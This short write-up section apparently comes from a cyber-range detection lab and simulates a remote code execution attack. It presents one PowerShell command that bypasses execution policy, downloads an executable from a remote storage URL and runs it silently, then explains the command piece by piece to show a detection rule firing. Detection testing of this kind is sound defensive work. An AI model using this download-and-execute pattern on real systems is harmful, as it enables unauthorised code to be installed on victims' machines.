 # Attack Simulation

## 1. Simulating the RCE Attack

To test the detection rule, I simulated a Remote Code Execution (RCE) attack by executing the following PowerShell command:

```bash
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -NoProfile -Command "Invoke-WebRequest -Uri 'https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe' -OutFile C:\ProgramData\7z2408-x64.exe; Start-Process 'C:\programdata\7z2408-x64.exe' -ArgumentList '/S' -Wait"
```
### Explanation of the Command

- **`cmd.exe /c`**: Executes a command using the Windows command prompt.
- **`powershell.exe -ExecutionPolicy Bypass -NoProfile`**: Runs PowerShell with settings to bypass execution policies and avoid profile loading.
- **`Invoke-WebRequest`**: Downloads the 7-Zip installer from a remote server.
- **`Start-Process`**: Executes the downloaded file silently with the `/S` argument for a silent installation.

This simulation emulates an attacker using PowerShell to download and execute a file, triggering the detection rule that was previously set up.

